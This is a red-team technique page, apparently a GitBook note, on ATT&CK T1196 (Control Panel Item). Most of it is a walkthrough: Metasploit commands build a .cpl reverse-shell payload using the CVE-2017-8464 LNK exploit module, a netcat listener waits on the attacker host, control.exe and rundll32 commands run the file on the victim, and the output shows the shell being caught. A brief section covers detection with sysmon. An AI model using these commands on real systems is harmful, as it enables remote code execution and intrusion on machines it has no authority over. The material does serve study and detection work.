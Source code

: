 ```yaml
---
description: Control Panel Item code execution - bypass application whitelisting.
---
```


# T1196: Control Panel Item

## Execution

Generating a simple x64 reverse shell in a .cpl format:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasembly of the dll suggests that rundll32.exe will be spawned, a new thread will be created in suspended mode, which most likely will get injected with our shellcode and eventually resumed to execute that shellcode:

![](../.gitbook/assets/lnk-dissasm.png)

Invoking the shellcode via control.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacking machine receiving the reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note how rundll32 spawns cmd.exe and establishes a connection back to the attacker - these are signs that should raise your suspicion when investingating a host for a compromise:

![](../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help in finding suspicious commandlines being executed in your environment:

![](../.gitbook/assets/lnk-sysmon%20%281%29.png)

## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1196" %}

{% embed url="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1060/T1060.md" %}

